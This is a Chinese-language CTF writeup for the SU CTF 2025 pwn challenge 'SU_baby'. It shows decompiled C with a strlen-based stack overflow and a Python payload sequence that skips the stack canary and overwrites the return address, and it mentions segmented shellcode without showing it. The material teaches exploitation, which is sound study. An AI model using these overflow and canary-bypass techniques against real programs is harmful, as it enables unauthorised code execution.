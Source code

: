 ## SU_baby - SU CTF 2025
唉 明显感觉到自己最近题做少了，需要一点技巧的地方就想不到了，这道题没啥利用的难度，但是绕 canary 和写 shellcode 还是卡了两个地方，于是记一下 writeup      
本题最大的特点是栈可执行，给了一个漏洞函数可以输入一个地址，然后将该地址作为指令序列的起始地址去跳转执行     
### 绕 canary
漏洞是一个栈溢出，所在函数如下    
```c
unsigned __int64 __fastcall add_files(__int64 stack_buf2, unsigned int *file_cnt)
{
  int v3; // [rsp+1Ch] [rbp-64h] BYREF
  int v4; // [rsp+20h] [rbp-60h]
  int i; // [rsp+24h] [rbp-5Ch]
  int v6; // [rsp+28h] [rbp-58h]
  int v7; // [rsp+2Ch] [rbp-54h]
  char buf[16]; // [rsp+30h] [rbp-50h] BYREF
  char s[16]; // [rsp+40h] [rbp-40h] BYREF
  char src[40]; // [rsp+50h] [rbp-30h] BYREF
  unsigned __int64 v11; // [rsp+78h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  v3 = 0;
  v6 = 0;
  v7 = 0;
  v4 = 0;
  printf(&byte_403118, *file_cnt);              // current existing file number
  puts(&byte_403140);
  __isoc99_scanf(&unk_402B30, &v3);             // how many to add
  getchar();
  for ( i = 0; i < v3; ++i )
  {
    if ( (int)*file_cnt > 11 )
    {
      puts(&byte_403168);
      return __readfsqword(0x28u) ^ v11;
    }
    puts(&byte_403199);                         // name
    fgets(s, 16, stdin);
    s[strcspn(s, "\n")] = 0;
    strcpy((char *)(352LL * (int)*file_cnt + stack_buf2), s);
    puts(&byte_4031AF);                         // content
    v6 = read(0, buf, 9uLL);
    strncpy(&src[v4], buf, v6);
    v7 = strlen(buf);                           // 14
    v4 += v7 + 1;                               // can overflow
    strcpy((char *)(352LL * (int)*file_cnt + stack_buf2 + 50), src);
    ++*file_cnt;
    puts(&byte_4031C5);
  }
  return __readfsqword(0x28u) ^ v11;
}
```
出现问题是因为不该用 strlen(buf) 计算，buf 的 0x8 ~ 0x10 offset 是一个 libc 地址，所以如果读进来的数大于8，则 v7 会变成14     
还有一个点可能是单纯审计代码会容易想不到的，一开始认为必须使得读入的内容大于等于8字节才可以使得 v7 是14，并且我们期望绕过 canary 是8字节，这样的话就感觉很难绕过 canary    
但是在实际调试中会发现像如下序列    
```py
payload = [b"a"*9] # 15
payload = payload + [b"bbbbbb\x00"] # 22
payload = payload + [b"b"*8] # 37
payload = payload + [b"b"*3] # 52
payload = payload + [b"bbb\x00"] # 56
payload = payload + [p64(backdoor)]
```
其中像是用 `b"b"*8` 填充 buf 的低8字节，下一轮写入的只是 `b"bbb"` 的话，strlen 返回值也会是 14，这明显有一个大于8字节的 gap 从而可以绕过 canary     
还有一个点是我们写 shellcode 的时候，需要写分段 shellcode，此时可以 mark 一下第一段 shellcode 压缩字节数的技巧（    